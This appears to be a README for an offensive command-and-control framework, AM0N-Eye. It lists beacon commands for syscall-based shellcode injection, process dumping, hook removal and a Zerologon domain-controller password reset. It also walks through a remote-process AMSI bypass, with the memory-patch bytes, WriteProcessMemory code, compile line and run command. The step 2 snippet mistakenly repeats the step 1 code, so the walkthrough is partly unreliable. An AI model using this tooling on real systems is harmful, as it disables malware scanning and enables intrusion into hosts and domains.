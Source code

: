     static_syscalls_dump      Use static syscalls to dump a given PID and save to disk
    static_syscalls_inject    Use static syscalls to execute CRT beacon shellcode launch with Nt functions.
    static_syscalls_shinject  Use static syscalls to execute custom shellcode launch with Nt functions.
    sync_all_beacon_downloads Sync all Downloads.
    sync_beacon_downloads     Sync all Downloads from current Beacon.
    syscalls_inject           Use syscalls from on-disk dll to execute CRT beacon shellcode launch with Nt functions.
    syscalls_shinject         Use syscalls from on-disk dll to execute custom shellcode launch with Nt functions.
    unhook                    remove hooks from DLLs in this process
    zerologon                 Reset DC machine account password with CVE-2020-1472
    
    
    __________________________________________________________________________________________________________________________________
    
    
## AM0N-Eye BOF - Inject AMSI Bypass
AM0N-Eye Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

### What does this do?
##### 1. Use supplied PID argument to get a handle on the remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/


### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c amsi-inject.c -o amsi-inject.o
```
### Run from AM0N-Eye Beacon Console
```bash
beacon> amsi-inject <PID>
```
